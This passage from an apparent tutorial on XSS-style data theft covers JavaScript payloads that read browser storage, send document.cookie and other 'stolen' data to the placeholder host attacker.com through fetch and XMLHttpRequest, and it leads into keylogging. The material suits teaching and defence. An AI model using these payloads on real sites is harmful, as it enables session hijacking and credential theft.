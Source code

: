 **Why This Works:**

* **`localStorage` data persists** across browser sessions, making it a valuable target.
* **`sessionStorage` data disappears** when the tab closes, but is still vulnerable during an active session.

***

#### 2. Stealing Cookies

Cookies often contain **session identifiers** that allow an attacker to hijack a user’s session.

**Payload: Sending Cookies to an External Server**

```javascript
fetch("http://attacker.com/steal", {
    method: "POST",
    body: document.cookie
});
```

**Why This Works:**

* If **cookies lack the `HttpOnly` flag**, JavaScript can read them.
* Attackers can **steal session IDs**, allowing them to impersonate victims.

***

#### 3. Exfiltrating Data via HTTP Requests

Attackers often use **background HTTP requests** to **exfiltrate stolen data**.

**Legacy Approach: Using XMLHttpRequest**

```javascript
let xhr = new XMLHttpRequest();
xhr.open("POST", "http://attacker.com/steal", true);
xhr.send("data=stolen");
```

**Modern Approach: Using Fetch API**

```javascript
fetch("http://attacker.com/steal", {
    method: "POST",
    body: JSON.stringify({ data: "stolen" })
});
```

**Why This Works:**

* **Fetch API** is **simpler** and **stealthier** than `XMLHttpRequest`.
* Can be used to **exfiltrate stolen credentials, API keys, or session tokens**.

***

#### 4. Keylogging: Capturing User Keystrokes

Attackers can use **event listeners** to log every keystroke a user makes.
